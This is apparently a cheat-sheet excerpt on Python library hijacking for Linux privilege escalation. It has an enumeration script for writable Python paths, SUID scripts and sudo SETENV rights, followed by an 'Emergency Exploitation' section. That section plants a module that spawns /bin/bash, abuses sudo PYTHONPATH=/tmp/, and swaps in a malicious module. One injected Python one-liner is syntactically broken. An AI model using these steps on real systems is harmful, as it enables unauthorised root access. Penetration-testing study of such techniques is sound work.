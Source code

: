 ## 🔍 Detection Script

```bash
#!/bin/bash
echo "=== PYTHON LIBRARY HIJACKING CHECK ==="

echo "[+] Python paths (priority order):"
python3 -c 'import sys; print("\n".join(sys.path))' 2>/dev/null

echo "[+] Writable Python paths:"
python3 -c 'import sys; print("\n".join(sys.path))' 2>/dev/null | while read path; do
    if [ -w "$path" 2>/dev/null ]; then
        echo "  WRITABLE: $path"
    fi
done

echo "[+] SUID Python scripts:"
find / -name "*.py" -perm -4000 2>/dev/null

echo "[+] Python sudo permissions:"
sudo -l 2>/dev/null | grep -E "(SETENV.*python|python.*SETENV)"

echo "[+] Writable site-packages:"
find /usr -name "site-packages" -writable 2>/dev/null
find /usr -name "dist-packages" -writable 2>/dev/null
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Check Python paths
python3 -c 'import sys; print("\n".join(sys.path))'

# Find SUID Python scripts
find / -name "*.py" -perm -4000 2>/dev/null

# Check sudo SETENV
sudo -l | grep SETENV | grep python
```

### Emergency Exploitation
```bash
# If writable high-priority path found
echo 'import os; def target_function(): os.system("/bin/bash")' > /writable/path/module.py

# If PYTHONPATH manipulation allowed
sudo PYTHONPATH=/tmp/ python3 script.py

# Quick module replacement
cp legitimate_module.py malicious_module.py
# Edit malicious_module.py to add: os.system('/bin/bash')
```
